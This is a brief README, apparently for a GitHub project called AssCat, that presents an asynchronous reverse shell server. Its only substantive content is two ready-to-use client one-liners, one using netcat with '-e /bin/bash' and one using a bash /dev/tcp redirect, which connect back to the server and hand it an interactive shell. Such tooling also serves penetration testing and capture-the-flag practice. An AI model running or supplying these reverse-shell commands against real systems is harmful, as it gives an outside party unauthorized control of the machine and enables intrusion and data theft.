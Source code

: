 ## AssCat🍑 
### Async (Reverse) Shell Server  

<br>

Supports raw shell clients like:

```nc <SERVER_IP> <SERVER_PORT> -e /bin/bash```

or:

```bash -i >& /dev/tcp/<SERVER_IP>/<SERVER_PORT> 0>&1```

etc...